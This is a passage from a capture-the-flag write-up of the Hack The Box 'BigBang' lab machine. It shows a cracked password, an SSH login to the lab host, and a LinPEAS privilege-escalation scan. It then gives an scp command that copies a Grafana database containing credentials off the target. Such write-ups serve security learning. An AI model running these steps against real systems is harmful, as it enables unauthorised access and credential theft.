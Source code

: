 it will take a while to crack !

```bash
quantumphysics
```

```bash
ssh shawking@10.10.11.52
```

![Screenshot 2025-01-27 at 10.59.50 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_10.59.50_PM.png)

---

## 🗝️ Lateral Moment :-

i ran LinPeas on this and from the Output i got that in this machine there is a `grafana.db` file 

![Screenshot 2025-01-27 at 8.25.11 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_8.25.11_PM.png)

Download this file 

```bash
scp shawking@10.10.11.52:/opt/data/grafana.db grafana.db
```

